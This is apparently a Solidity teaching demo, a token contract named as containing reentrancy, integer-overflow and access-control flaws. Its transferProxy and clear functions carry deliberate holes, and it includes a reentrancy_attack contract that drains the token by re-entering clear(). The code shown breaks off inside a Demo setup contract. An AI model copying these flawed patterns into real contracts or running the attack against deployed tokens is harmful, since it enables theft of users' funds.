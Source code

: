 ```solidity
    string public name = "Demo token with reentrancy issue, integer overflow and access control issue";
    constructor (uint256 initialSupply) {
        totalSupply = initialSupply;
        balances[msg.sender] = totalSupply;
    }
    function transferProxy(address _from, address _to, uint256 _value, uint256 _fee
        ) public returns (bool){
		unchecked{
			require(balances[_from] >= _fee + _value);
			require(balances[_to] + _value >= balances[_to]);
			require(balances[msg.sender] + _fee >= balances[msg.sender]); 
			
			balances[_to] += _value;
			balances[msg.sender] += _fee;
			balances[_from] -= _value + _fee;
			return true;
		}
    }

    //This function moves all tokens of msg.sender to the account of "_to"
    function clear(address _to) public {
        uint256 bal = balances[msg.sender];
        require (msg.sender!=_to);
        balances[_to]+=bal;
        bool success;
        (success, ) = msg.sender.call(
            abi.encodeWithSignature("receiveNotification(uint256)", bal)
        );
        require(success, "Failed to notify msg.sender");
        balances[msg.sender] = 0;
    }
}


contract reentrancy_attack {
    MultiVulnToken public multiVulnToken; 
    address _to;
    uint count=0;
    constructor (MultiVulnToken _multiVulnToken, address __to) 
    {
        multiVulnToken=_multiVulnToken;
        _to = __to;
    }
    function receiveNotification(uint256) public { 
        if (count < 9) {
            count ++;
            multiVulnToken.clear(_to); 
        }
    } 
    function attack() public {
        multiVulnToken.clear(_to);
    }
}

contract Demo {
    MultiVulnToken MultiVulnTokenContractAddress;

    address attacker1Address = address(0x92349Ef835BA7Ea6590C3947Db6A11EeE1a90cFd); //just an arbitrary address
    reentrancy_attack attacker2Address1;
    address attacker2Address2 = address(0x0Ce8dAf9acbA5111C12B38420f848396eD71Cb3E); //just an arbitrary address
```